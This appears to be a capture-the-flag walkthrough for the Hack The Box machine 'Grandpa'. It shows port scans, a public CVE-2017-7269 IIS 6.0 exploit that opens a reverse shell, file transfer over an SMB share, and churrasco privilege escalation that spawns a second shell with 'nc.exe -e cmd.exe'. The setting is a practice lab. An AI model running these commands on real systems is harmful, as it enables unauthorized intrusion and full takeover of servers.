

# [Grandpa](https://app.hackthebox.com/machines/grandpa)


```bash
nmap -p- --min-rate 10000 10.10.10.14 -Pn
```


I see just (port 80) is open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80 10.10.10.14 -Pn
```


I see that it is 'IIS httpd 6.0' version which should be vulnerable as because it is old version.


I found exploit whose id is [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269).


Let's use this exploit.

```bash
python2 script.py 10.10.10.14 80 10.10.16.8 1337
```


I got reverse shell from port (1337).


I cannot find any flag with this user, let's look at the privileges of this user via `whoami /priv` command.


I found privilege escalation [exploit](https://github.com/Re4son/Churrasco.git) for 'SeImpersonatePrivilege', let's use this.


I open SMB share via `impacket` module's script to send `nc.exe` and `churrasco.exe` into target machine.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .
```


Then, I need to get this files on target machine.
```bash
copy \\10.10.16.8\share\nc.exe .
copy \\10.10.16.8\share\churrasco.exe .
```


Let's use this exploit against our target.

```bash
.\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.16.8 1338"
```


I got reverse shell from port (1338).


user.txt and root.txt

